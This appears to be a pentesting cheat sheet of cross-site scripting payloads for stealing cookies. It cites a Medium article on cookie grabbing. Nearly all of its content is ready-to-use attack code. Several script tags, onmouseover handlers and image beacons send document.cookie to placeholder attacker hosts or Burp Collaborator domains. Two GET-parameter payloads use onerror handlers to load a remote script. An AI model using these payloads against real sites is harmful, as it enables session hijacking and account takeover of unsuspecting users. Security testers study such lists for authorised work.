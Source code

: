 Payload to inject:

```javascript
<script>document.location="http://YOUR_IP:PORT/cookie/" + document.cookie </script>
```

onmouseover:

```javascript
onmouseover='document.location=%22https://<your_Burp_Collab>.burpcollaborator.net?%22.concat(document.cookie)
```

or

```javascript
onmouseover='setTimeout(function()%7Bdocument.location=%22https://<your_Burp_Collab>.burpcollaborator.net?%22.concat(document.cookie);%7D,1)
```

or

```javascript
onmouseover='document.write(%22<img src=https://<your_Burp_Collab>.burpcollaborator.net?%22.concat(document.cookie).concat(%22 />%22))
```

or

```javascript
<script>
var i = new Image();
i.src="//<your_Burp_Collab>.burpcollaborator.net?q="+document.cookie;
</script>
```

XSS payload:

```javascript
<script src=http://attacker_IP:5000/?c="+document.cookie;></script>
```

Or

```javascript
<script type="text/javascript">document.location="http://attacker_IP:5000/?c="+document.cookie;</script>
```

- From <https://medium.com/@laur.telliskivi/pentesting-basics-cookie-grabber-xss-8b672e4738b2> 


## Other examples:

GET Requests (URL):

```javascript
&vulnfield=test"><img src=x onerror='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```javascript
vulnfield=foobar'%3e <img src=x onerror='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```
